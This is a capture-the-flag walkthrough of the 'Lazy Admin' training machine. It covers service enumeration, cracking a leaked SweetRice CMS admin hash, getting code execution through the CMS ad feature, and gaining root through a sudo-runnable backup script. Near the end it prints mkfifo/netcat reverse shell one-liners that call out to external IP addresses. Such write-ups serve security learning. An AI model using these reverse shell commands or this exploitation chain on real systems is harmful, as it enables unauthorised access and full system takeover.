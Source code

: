 # Lazy Admin

<img src="lazy.jpeg" width=200 height=200 alt="lazy">

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### ffuf

```
                        [Status: 200, Size: 11321, Words: 3503, Lines: 376]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
content                 [Status: 301, Size: 314, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10
/content                [Status: 200, Size: 2199, Words: 109, Lines: 36]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10]

.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10]
images                  [Status: 301, Size: 323, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 2199, Words: 109, Lines: 36]
js                      [Status: 301, Size: 319, Words: 20, Lines: 10]
```

There is a `"content"` directory

```
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed

Powered by Basic-CMS.ORG SweetRice.

//down down bad practices...

These tips may be useful for you install SweetRice.

1,Open your website.

Default,when you installed SweetRice,your website's status is "close",and SweetRice will show "Site is building now , please come late.?" to visitors,if you ready to open your website,you can go to Setting -> General , uncheck the checkbox for "Site Close" and submit,your website's status will be "open".

When you upgrade website, this feature may be useful.You can input some words to the textarea for "Site Close Tip" to replace the word "Site is building now , please come late.?".

2,Protect your data.

SweetRice save all important file in the inc directory,there are two kinds of format ?:.txt (link.txt , htaccess.txt, lastest.txt) and .db (if track feature enabled).If you are using apache server,the file .htaccess which in inc directory will work for protect your data,if your server is nginx,you may see Security setting for Nginx.For other web server ,you may try it yourself.

3.Enable URL rewrite

Apache server supports .htaccess,when URL rewrite feature enabled ?,a .htaccess file will be saved to your web root directory.The file content is:

RewriteEngine On
RewriteBase "your web root"
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule . index.php [L]

Nginx server does not supports .htaccess file,you may add the URL rewrite config to the nginx.conf or your nginx config file.

example:

location / {
root /htdocs;
index index.html index.php;
if (!-e $request_filename){
		 rewrite ^/demo/.+$ /demo/index.php last;
}
}

4,Set permalinks

SweetRice supports custom permalink,you can go to Setting->Permaliks to set permalinks for Attachment,RssFeed,tag etc.

5,Custom SweetRice

SweetRice is very simple,but you can easy to build your custom website,Do not like default theme?you can use the example \_themes/wblog to build a new theme or download theme from SweetRice Themes?;

Need new feature?you can build a plugin and install it,some plugin at SweetRice Plugins? and you can submit your request to us.
```

Lets visit /content/inc then

latest version of basic-cms sweetrice is 1.5.1 (no great cve anyway)

And a backup of sql database is downloadable (lol that's it)

Just read it

```
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

so basically creds are

`Lazy Admin : 42f749ade7f9e195bf475f37a44cafcb`

Its a hash and its crackable

its md5 for `Password123`

I wonder if can ssh with that? nope we gotta find a login page....go fuzz content again

we get a `"as"` directory with a login page

Ok the credentials were actually

`manager : Password123`

Still doesnt work for ssh...we have to abuse that website

in Ads panel we can create custom ads...its php code that will be executed so I say Reverse shell it is!

when created you can actiate your shell by clicking on your named ad in `/content/inc/ads`

As they say in the movies...we are in!

the user home folder is named `itguy`

```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
cat mysql_login.txt
rice:randompass //hohoho..great
```

FLAG #1
`$ cat user.txt`
THM{lazy_flag_for_lazy_people}

Time to get real

## Privilege Escalation

```
sudo -l
Matching Defaults entries for www-data on THM-Chal:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

So we can run that perl backup script in user folder...let's analyse its code

```
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

it runs `/etc/copy.sh`...so what is that?

```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

its already a reverse shell..we will just adapt it to point to us

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.226.203 4444 >/tmp/f' > /etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl
```

And we are done

```
# id

uid=0(root) gid=0(root) groups=0(root)

# cat root.txt

THM{super_flag_to_get_root_instantly}
```

Feeling lazy too now...that one room was enough for today!
